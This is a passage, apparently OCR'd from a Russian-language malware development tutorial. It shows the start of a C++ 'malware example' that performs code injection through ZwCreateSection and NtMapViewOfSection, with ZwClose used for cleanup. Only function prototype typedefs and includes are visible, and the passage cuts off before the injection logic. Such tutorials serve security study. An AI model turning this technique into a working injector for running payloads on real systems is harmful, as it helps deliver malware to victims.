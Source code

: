 вместо `RtlCreateUserThread` для запуска полезной нагрузки.

И ещё одно отличие: мы используем `ZwClose` для закрытия дескрипторов (очистка):    

```cpp
typedef NTSTATUS(NTAPI* pZwClose)(
  _In_ HANDLE       Handle
);
```
![injection 4](./images/35/2022-01-16_23-47.png){width="80%"}    

Итак, полный исходный код нашего примера вредоносного ПО:

```cpp
/*
 * hack.cpp - code injection via 
 * ZwCreateSection, ZwUnmapViewOfSection
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/
 2022/01/14/malware-injection-13.html
*/
#include <cstdio>
#include <windows.h>
#include <winternl.h>

#pragma comment(lib, "ntdll")

// ZwCreateSection
typedef NTSTATUS(NTAPI* pZwCreateSection)(
  OUT PHANDLE            SectionHandle,
  IN ULONG               DesiredAccess,
  IN POBJECT_ATTRIBUTES  ObjectAttributes OPTIONAL,
  IN PLARGE_INTEGER      MaximumSize OPTIONAL,
  IN ULONG               PageAttributess,
  IN ULONG               SectionAttributes,
  IN HANDLE              FileHandle OPTIONAL
);

// NtMapViewOfSection syntax
typedef NTSTATUS(NTAPI* pNtMapViewOfSection)(
  HANDLE            SectionHandle,
  HANDLE            ProcessHandle,
  PVOID*            BaseAddress,
  ULONG_PTR         ZeroBits,
  SIZE_T            CommitSize,
  PLARGE_INTEGER    SectionOffset,
  PSIZE_T           ViewSize,
  DWORD             InheritDisposition,
  ULONG             AllocationType,
  ULONG             Win32Protect
);
```